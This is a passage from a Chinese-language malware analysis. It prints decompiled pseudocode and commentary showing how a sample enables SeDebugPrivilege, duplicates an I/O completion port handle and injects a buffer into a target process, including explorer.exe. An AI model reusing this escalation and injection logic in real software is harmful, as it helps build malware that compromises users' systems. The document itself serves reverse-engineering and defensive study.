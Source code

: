 ```
    StartServiceW(v21, 0, 0i64);
    Sleep(0x3E8u);
  }
  v19 = v11 == 0;
    //10.如果数据可用发送数据到服务
LABEL_20:
  v22 = lpBuffer;
if ( !v19 )
  {
    v23 = v26 + 524;
    ServicesReturned = 0i64;
      //sub_180005550调用子函数发送数据（可能是注入或执行）
    if ( sub_180005550(v11, lpBuffer, v26 + 524, &ServicesReturned) )
    {
        //尝试通过explorer.exe来执行
      v24 = sub_180004C58(L&#34;explorer.exe&#34;);
      if ( v24 )
      {//再次调用sub_180005550()
        pcbBytesNeeded = 0i64;
        sub_180005550(v24, v22, v23, &pcbBytesNeeded);
      }
    }
  }
}

```

  
**sub_180005550()函数**  
：该函数是对准备注入前的一个准备函数，主要针对当前进程提权，目的是为后续操作获取足够的权限。首先获取当前进程令牌 (OpenProcessToken)，启用 SeDebugPrivilege 权限（允许调试其他进程），调用未公开 API RtlAdjustPrivilege(0x14)激活额外特权，随后枚举系统句柄，定位并复制 I/O 完成端口句柄，将获取到的句柄赋值给一个全局变量qword_18010A460，随后调用sub_180005370()实行注入操作  

```
DWORD __fastcall sub_180005550
    (
    DWORD dwProcessId, //目标进程 ID
     LPCVOID lpBuffer, //要注入的数据缓冲区
     int a3,      //缓冲区大小
     const void *a4,   //额外参数(可能是回调或配置)
     int a5,           //标志或模式
     _QWORD *a6        //输出参数:返回的进程句柄
    )
{
/*
参数列表
*/

  v6 = 0i64;
  Luid.Privileges[0].Luid = 0i64;
  v25 = a4;
    //数据大小
  LODWORD(nSize) = a3;
  v23 = a5;
  TokenHandle = -1i64;
    //1.获取当前进程并提权（SeDebugPrivilege）
  CurrentProcess = GetCurrentProcess();
if ( OpenProcessToken(CurrentProcess, 0x28u, &TokenHandle) )
  {
    Luid.PrivilegeCount = 1;
      // 启用权限（2=SE_PRIVILEGE_ENABLED）
    Luid.Privileges[0].Attributes = 2;
      // 获取权限的LUID
    LookupPrivilegeValueW(0i64, L&#34;SeDebugPrivilege&#34;, &Luid.Privileges[0].Luid);
```